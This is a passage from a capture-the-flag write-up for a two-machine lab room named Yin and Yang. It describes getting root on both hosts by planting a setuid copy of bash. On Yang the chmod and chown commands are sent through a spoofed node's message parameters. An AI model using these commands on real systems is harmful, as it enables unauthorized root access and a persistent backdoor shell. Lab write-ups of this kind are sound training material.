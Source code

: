 1. `chmod +x /home/yin/bash`
2. `chown root:root /home/yin/bash`
3. `chmod u+s /home/yin/bash`

Finally, with the stage setup, I ran `bash -p` to root **Yin**.

### Yang

Root on **Yang** was pretty much the same. I used the spoofed **Yin** node to send actions to **Yang** The format for it was:

`{python icon} message.actionparams = ['chmod +x /home/yang/bash', 'chown root:root /home/yang/bash', 'chmod u+s /home/yang/bash' ]`

## Wrap Up

I got both the flags in the `/root` directory for each server and completed the room.